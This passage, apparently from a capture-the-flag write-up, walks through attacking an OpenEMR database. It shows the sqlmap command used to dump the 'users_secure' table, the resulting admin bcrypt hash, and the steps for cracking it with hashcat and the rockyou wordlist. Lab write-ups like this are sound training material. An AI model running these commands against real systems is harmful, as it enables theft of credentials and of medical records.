 | batchcom                   |
| billing                    |
| calendar_external          |
| categories                 |
| categories_seq             |
| categories_to_documents    |
| ccda                       |
| ccda_components            |
| ccda_field_mapping         |
| ccda_sections              |
| ccda_table_mapping         |
| chart_tracker              |

--snip--
{%endhighlight%}

we get a pretty long list of tables and I try to dump the contents of the one that I found interesting. I finally get a usefull one named "users_secure". So I dump its contents with `python sqlmap -r requestFile -D openemr -T users_secure --dump`

we get this

{%highlight text%}
Database: openemr
Table: users_secure
[1 entry]
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| id | salt                           | password                                                     | username      | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+

{%endhighlight%}

we have a username and a hash of a password now. For simple hashes I just use crackstation.net but for complex ones that use a salt I have to use hashcat. First I figure out the type of hash. I use the man page of hashcat and judging from the pattern I see it is a "bcrypt $2*$, Blowfish" hash with mode number 3200. All that is left is cracking, I use the rockyou.txt wordlist.
